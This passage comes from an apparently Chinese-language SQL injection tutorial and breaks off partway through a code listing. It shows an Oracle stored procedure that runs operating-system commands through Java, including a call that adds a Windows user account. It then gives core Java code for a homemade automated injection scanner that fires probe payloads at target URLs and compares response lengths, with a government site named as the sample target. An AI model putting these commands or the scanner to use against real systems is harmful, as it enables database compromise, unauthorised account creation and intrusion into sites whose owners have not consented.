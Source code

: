 创建存储过程executeCmd：

```
create or replace procedure executeCmd(c in varchar2)
as
language java name 'Execute.executeCmd(java.lang.String)';

```

执行存储过程：

```
exec executeCmd('net user selina 123 /add');

```

![enter image description here](http://drops.javaweb.org/uploads/images/279ac34440f106fe264b3a70875a38377169b501.jpg)

上面提供的命令执行和getshell创建方式对换一下就能回显了，如果好不清楚怎么让命令执行后回显可以参考：

[http://hi.baidu.com/xpy_home/item/09cbd9f3fd30ef0585d27833](http://hi.baidu.com/xpy_home/item/09cbd9f3fd30ef0585d27833)

一个不错的SQLJ的demo（犀利的 oracle 注入技术）。

[http://huaidan.org/archives/2437.html](http://huaidan.org/archives/2437.html)  

### 0x01 自动化的SQL注入工具实现

* * *

通过上面我们对数据库和SQL注入的熟悉，现在可以自行动手开发注入工具了吧？

很久以前非常粗糙的写了一个SQL注入工具类，就当作demo给大家做个演示了。

仅提供核心代码，案例中的gov网站请勿非常攻击！

简单的SQL Oder by 注入实现的方式核心代码：

1、分析

```
URLpublic static void AnalysisUrls(String site) throws Exception

```

这个方法主要是去分析URL的组成是否静态化等。

2、检测是否存在：

这个做的粗糙了些，只是通过请求提交不同的SQL注入语句去检测页面返回的情况：

```
/**
     * 分析SQL参数是否存在注入
     * @param str
     */
    public static void  AnalysisUrlDynamicParamSqlInjection(String str[]) {
        Map<String,Object> content,content2;
        sqlKey = new ArrayList<Object>();
        content = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter);//原始的请求包
        int len1 = content.get("content").toString().length();//原始请求的response长度
        boolean typeIsNumber = false;
        String c1[] = {"'","-1",")\"\"\"\"\"()()",")+ANd+3815=3835+ANd+(1471=1471",") ANd+9056=9056+ANd+(9889=9889"," ANd+6346=6138 "," ANd+9056=9056"};//需要检查的对象
        for (int i = 0; i < str.length; i++) {
            typeIsNumber = StringUtil.isNotEmpty(str[i].split("="))&&StringUtil.isNum(str[i].split("=")[1])?true:false;
            for (int j = 0; j < c1.length; j++) {
                content2 = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter.replace(str[i], str[i].split("=")[0]+"="+str[i].split("=")[1]+c1[j]));
```